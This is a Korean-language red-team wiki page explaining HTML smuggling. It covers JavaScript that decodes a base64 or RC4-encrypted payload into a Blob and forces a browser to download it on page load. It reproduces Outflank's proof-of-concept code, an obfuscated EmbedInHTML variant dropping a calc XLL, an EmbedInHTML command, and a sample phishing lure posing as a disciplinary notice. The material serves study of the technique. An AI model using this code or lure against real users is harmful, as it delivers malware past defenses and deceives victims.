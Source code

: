 # HTML 스머글링 (Smuggling)

출처와 중요 레퍼런스 - [https://outflank.nl/blog/2018/08/14/html-smuggling-explained/](https://outflank.nl/blog/2018/08/14/html-smuggling-explained/)&#x20;

HTML 스머글링 (HTML Smuggling)은 자바스크립트와 HTML5의 download, anchor, click 등의 특성을 이용해 유저가 특정 HTML 페이지를 방문시 자동으로 파일을 다운 받도록 하는 기법이다.&#x20;

1. HTML5 anchor 태그에는 download 라는 특성이 있다. 이 특성은 anchor 태그에 URL 형식으로 링크된 파일을 클라이언트가 다운로드 받도록 한다.&#x20;
2. 자바스크립트의 Javascript Blob은 raw 데이터를 octet/stream 형태로 저장할 수 있게 해준다. 그 뒤 이 데이터는 createObjectURL을 통해 URL 형식으로 anchor 태그에 링크 될 수 있다.&#x20;
3. 자바스크립트의 HTMLElement.click 함수는 anchor 태그에 링크된 파일을 자동으로 클릭해 다운로드 받게 한다.&#x20;

위 3가지를 모두 합치면 HTML 페이지를 방문만 해도 페이로드가 다운로드 되도록 할 수 있다. HTML 스머글링은 다른 초기 침투 페이로드와 같이 사용되어 클라이언트의 디스크에 maldoc, XLL, DLL, HTA, JScript, ISO, ZIP 등의 파일들이 다운로드 되도록 한다.&#x20;

고급화된 피싱 공격에서는 다음과 같이 HTML 스머글링을 이용하기도 한다.&#x20;

* "<회사> 징계위원회입니다. 귀하와 관련된 익명의 신고가 접수되었으니 안전한 문서 접근을 위해 Safe URL 으로 가서 passcode: 1234를 입력한 뒤, 징계 문서를 확인주세요 -> \<HTML Smuggling 페이지 링크>"&#x20;
* 피해자가 링크 클릭 -> HTML Smuggling 으로 문서 다운로드&#x20;
* 문서를 여는 순간 페이로드 실행&#x20;

### 장점&#x20;

HTML 스머글링의 장점은 바로 호스트와 방어 기술들의 입장에서는 의심될만한 것이 많이 없다는 것이다. 아래는 Outflank 사의 블로그 포스트에서 가져온 이미지다:&#x20;

![https://outflank.nl/blog/2018/08/14/html-smuggling-explained/](<../.gitbook/assets/image (13) (1).png>)

타겟의 프록시/방화벽의 입장에서는 피해자 호스트가 단순한 HTML 페이지를 방문하는 것처럼 보인다. MIME Type도 text/html밖에 없고, 로드되는 코드들도 클라이언트-사이드의 자바스크립트 밖에 없다. 요새 자바스크립트 없는 웹 페이지가 없다보니 이상한 점은 없어보인다.&#x20;

브라우저의 입장에서도 단순한 HTML과 자바스크립트가 로드되다보니 이상한 점은 없다. 브라우저는 HTML5와 자바스크립트의 기본적인 함수들을 이용해 하라는대로, 파일을 다운로드 한다.&#x20;



### 코드&#x20;

기본적인 코드는 base64 스트링을 디코딩해 Javascript blob로 만들고, 이를 anchor 태그에 URL 형식으로 걸어놓은 뒤 HTMLElement.click() 함수를 이용해 이를 다운 받는 코드다.&#x20;

<details>

<summary>Outflank blog source code </summary>

```
function base64ToArrayBuffer(base64) {
  var binary_string = window.atob(base64);
  var len = binary_string.length;
  var bytes = new Uint8Array( len );
  for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
  return bytes.buffer;
}

var file ='<< BASE64 ENCODING OF MALICIOUS FILE >>';
var data = base64ToArrayBuffer(file);
var blob = new Blob([data], {type: 'octet/stream'});
var fileName = 'outflank.doc';

if(window.navigator.msSaveOrOpenBlob) window.navigator.msSaveBlob(blob,fileName);
else {
  var a = document.createElement('a');
  document.body.appendChild(a);
  a.style = 'display: none';
  var url = window.URL.createObjectURL(blob);
  a.href = url;
  a.download = fileName;
  a.click();
  window.URL.revokeObjectURL(url);
}
```

`base64ToArryBuffer` 함수를 이용해 base64 인코딩된 문자열을 ArrayBuffer 로 만든 뒤, 이를 new Blob 에다가 넣어 자바스크립트 데이터 Blob를 생성한다.

그 뒤 anchor 태그를 생성하고, `var url = window.URL.createObjectURL(blob)` 을 이용해 anchor 태그에 위에서 만든 Blob를 걸어준 뒤, `a.download` 및 `a.click` 으로 클라이언트 브라우저가 자동으로 파일을 다운받도록 한다.

</details>

위에서 살펴본 코드도 좋지만, 작전보안을 위해 파일을 암호화 한 뒤, 클라이언트 브라우저가 다운 받는 런타임 도중 복호화 해 다운 받도록 암호화를 추가하는 방법도 있다.&#x20;

<details>

<summary>EmbedinHTML - AES Encryption </summary>

```
function rc4Function(r,o){for(var t,e=[],n=0,a="",f=0;f<256;f++)e[f]=f;for(f=0;f<256;f++)n=(n+e[f]+r.charCodeAt(f%r.length))%256,t=e[f],e[f]=e[n],e[n]=t;f=0,n=0;for(var h=0;h<o.length;h++)n=(n+e[f=(f+1)%256])%256,t=e[f],e[f]=e[n],e[n]=t,a+=String.fromCharCode(o.charCodeAt(h)^e[(e[f]+e[n])%256]);return a;}
function b64AndRC4Function(r,o){var s=[],j=0,x,res='';for(var i=0;i<256;i++)s[i]=i;for(i=0;i<256;i++)j=(j+s[i]+r.charCodeAt(i%r.length))%256,x=s[i],s[i]=s[j],s[j]=x;i=0;j=0;var data=atob(o);var dataLength=data.length;var array=new Uint8Array(new ArrayBuffer(dataLength));for(var y=0;y<dataLength;y++)i=(i+1)%256,j=(j+s[i])%256,x=s[i],s[i]=s[j],s[j]=x,array[y]=data.charCodeAt(y)^s[(s[i]+s[j])% 256];return array;}

var keyFunction = function(){return "test"};

var varPayload = "<base64ed-file-string>";

var varBlob = new Blob([b64AndRC4Function(keyFunction(), varPayload)], {type: "application/vnd.ms-excel"});
var varBlobShim = '(function(b,fname){if(window.navigator.msSaveOrOpenBlob)window.navigator.msSaveOrOpenBlob(b,fname);else{var a=window.document.createElement("a");a.href=window.URL.createObjectURL(b, {type:"application/vnd.ms-excel"});a.download=fname;document.body.appendChild(a);a.click();document.body.removeChild(a);}})';
setTimeout(varBlobShim+'(varBlob, "calc.xll")');
```

</details>

암호화 함수들인 `rc4Function` 과 `b64AndRC4Function` 을 추가한다. 그 뒤, keyFunction 에서 간단한 암호화 키인 "test" 를 지정한다. 이후 암호화되어 있던 `varPayload` 를 `b64AndRC4Function` 으로 복호화 한다. 그 뒤, `varBlobShim` 에서는 위 OutFlank 소스코드에 있던 anchor 태그, Download 특성, createObjectURL 등을 추가하는 자바스크립트 함수를 만든다. 그 뒤, 이를 실행하면 런타임 중 복호화를 진행한 뒤 파일을 다운받게 된다.&#x20;

### 실습&#x20;

실습에서는 EmbedinHTML 툴을 사용한다. 오래된 툴이라 파이썬 2.7을 사용해야한다. PoC를 위해 기본 코드 실행인 계산기를 실행하는 페이로드를 이용한다.&#x20;

```
python2.7 embedInHTML.py -f ./payloads_examples/calc.xll -o test.html -w -k testkey
```

![](../.gitbook/assets/htmlsmuggling-demo2.gif)



### 레퍼런스&#x20;

{% embed url="https://outflank.nl/blog/2018/08/14/html-smuggling-explained/" %}

{% embed url="https://github.com/Arno0x/EmbedInHTML" %}
